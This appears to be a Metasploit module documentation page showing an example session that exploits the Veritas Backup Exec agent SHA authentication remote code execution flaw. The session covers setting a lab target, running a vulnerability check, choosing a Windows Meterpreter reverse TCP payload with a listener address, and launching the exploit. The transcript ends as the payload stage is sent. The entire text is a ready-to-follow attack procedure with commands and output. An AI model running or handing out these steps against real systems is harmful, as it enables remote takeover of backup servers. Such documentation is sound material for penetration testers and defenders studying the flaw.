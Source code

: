 An example session is as follows:

```
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > use exploit/multi/veritas/beagent_sha_auth_rce
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set RHOSTS 172.16.180.141
RHOSTS => 172.16.180.141
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > check

[*] 172.16.180.141:10000 - Checking vulnerability
[*] 172.16.180.141:10000 - Connecting to BE Agent service
[*] 172.16.180.141:10000 - Getting supported authentication types
Supported authentication by BE agent: BEWS2 (190), SHA (5), SSPI (4)
BE agent revision: 9.3
[*] 172.16.180.141:10000 - The target appears to be vulnerable. SHA authentication is enabled
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set TARGET Windows
TARGET => Windows
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set LHOST 172.16.180.248
LHOST => 172.16.180.248
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > show options 

Module options (exploit/multi/veritas/beagent_sha_auth_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   172.16.180.141   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    10000            yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addr
                                       esses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.180.248   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf6 exploit(multi/veritas/beagent_sha_auth_rce) > run

[*] Started reverse TCP handler on 172.16.180.248:4444 
[*] 172.16.180.141:10000 - Exploiting ...
[*] 172.16.180.141:10000 - Connecting to BE Agent service
[*] 172.16.180.141:10000 - Enabling TLS for NDMP connection
[*] 172.16.180.141:10000 - Passing SHA authentication
[*] 172.16.180.141:10000 - Uploading payload with NDMP_FILE_WRITE packet
[*] Sending stage (175686 bytes) to 172.16.180.141
```